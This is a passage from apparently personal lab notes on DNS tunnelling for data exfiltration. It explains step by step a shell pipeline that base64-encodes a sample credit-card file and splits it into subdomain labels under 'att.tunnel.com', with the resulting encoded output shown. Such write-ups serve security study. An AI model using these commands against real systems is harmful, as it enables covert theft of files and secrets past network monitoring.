 	Breakdown:
	- 'tr -d "\n"' : this deletes all newline characters in the encoded string.
	- 'fold -w18' : basically, this divides the base64 encoded string into 18 characters so there would be 18 characters at max that will be attached to the domain name when doing the DNS request. Note that at this point, the base64 encoded string each line has length of 18 characters(e.g., <18-characters>.<domain-name>.com)
	- "sed -r 's/.*/&.att.tunnel.com/" : inserts the output from the pipe that matches the following regular expression
				- Regular Expression Breakdown:
						- 's/' : substitute/replace this space/regex to the output coming from the pipe
						- '.*/' : meaning, this is a catch-all regex to catch the 18 character base64 encoded string.
						- '&' : I think this means append to the following string which is ".att.tunnel.com".
						- Each line from the output of 'fold -w18' will be applied to this regex command.

![](/assets/img/Pasted image 20230111000423.png)

<u>Each line</u>:
- `TmFtZTogVEhNLXVzZX.att.tunnel.com`
- `IKQWRkcmVzczogMTIz.att.tunnel.com`
- `NCBJbnRlcm5ldCwgVE.att.tunnel.com`
- `hNCkNyZWRpdCBDYXJk.att.tunnel.com`
- `OiAxMjM0LTEyMzQtMT.att.tunnel.com`
- `IzNC0xMjM0CkV4cGly.att.tunnel.com`
- `ZTogMDUvMDUvMjAyMg.att.tunnel.com`
- `pDb2RlOiAxMzM3Cg==.att.tunnel.com`


- In the previous command, we read the file's content and encoded it using Base64.
- Then, we cleaned the string by removing the newlines and gathered every 18 characters as a group.
- Finally, we appended the name server "`.att.tunnel.com`" for every group.

##### 7. Let's check the other way where we send a single DNS request, which we will be using for our data exfiltration.
- This time, we split every 18 characters with a "`.`" and add the name server similar to what we did in the previous command:
`thm@victim2:~$ cat task9/credit.txt | base64 | tr -d "\n" | fold -w18 | sed 's/.*/&./' | tr -d "\n" | sed s/$/att.tunnel.com/`

	- All newline characters are removed.
	- Each line is appended with '.' symbol.
	- The "att.tunnel.com" was added at the end.

<u>Output</u>:
`TmFtZTogVEhNLXVzZX.IKQWRkcmVzczogMTIz.NCBJbnRlcm5ldCwgVE.hNCkNyZWRpdCBDYXJk.OiAxMjM0LTEyMzQtMT.IzNC0xMjM0CkV4cGly.ZTogMDUvMDUvMjAyMg.pDb2RlOiAxMzM3Cg==.att.tunnel.com`

![](/assets/img/Pasted image 20230111000939.png)

	- Why should it be separated by '.' symbol? so when the DNS request is process, each encoded string that has 18 characters of length will be treated as subdomains. In this case, the DNS request will be processed like it has 9 subdomains:

<u>DNS Structural Elements with the appended subdomain encoded strings</u>:
![](/assets/img/Pasted image 20230111005157.png)
